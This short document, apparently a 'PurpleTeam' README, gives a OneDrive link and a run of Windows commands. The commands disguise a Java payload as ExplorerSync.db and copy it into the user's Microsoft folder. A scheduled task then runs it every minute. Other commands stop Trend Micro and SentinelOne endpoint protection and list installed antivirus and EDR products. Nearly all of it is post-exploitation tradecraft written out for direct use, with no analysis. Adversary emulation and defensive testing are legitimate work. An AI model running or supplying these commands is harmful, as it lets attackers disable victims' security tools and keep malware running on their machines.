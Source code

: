 # PurpleTeam

https://onedrive.live.com/view.aspx?resid=5EFC811CDEC9D7F0!6215&ithint=file%2Cdocx&authkey=!ACVO3y1Jyhq0mfY


copy %temp%\ExplorerSync.db %temp%\..\Microsoft\ExplorerSync.db

schtasks /create /tn ExplorerSync /tr "javaw -jar %temp%\..\Microsoft\ExplorerSync.db" /sc MINUTE /f


Stop-Service -Name "ntrtscan"
Stop-Service -Name "tmlisten"


Stop-Process -Name SentinelAgent -Force


Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntiVirusProduct | Select displayName, pathToSignedProductExe, productState


Get-Service | Where-Object { $_.DisplayName -match "Sentinel|Defender|Trend|Crowd|Sophos|Symantec|Carbon|McAfee" } | Select DisplayName, Status
